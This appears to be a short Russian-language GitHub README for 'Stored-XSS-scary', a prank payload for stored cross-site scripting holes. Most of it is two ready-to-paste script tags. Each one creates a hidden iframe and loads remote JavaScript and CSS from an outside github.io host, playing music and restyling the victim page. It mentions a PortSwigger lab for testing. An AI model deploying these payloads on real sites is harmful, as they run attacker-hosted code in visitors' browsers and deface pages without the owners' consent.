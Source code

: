 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Обрезанная версия (только запуск музыки):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script)}</script>
<br>
Полная версия (музыка + CSS):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script); var cssLink = document.createElement('link'); cssLink.rel = 'stylesheet'; cssLink.href = 'https://0-dayff13r.github.io/Stored-XSS-scary/styles.css'; document.head.appendChild(cssLink); var script2 = document.createElement('script'); script2.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/script.js'; document.body.appendChild(script2);}</script>
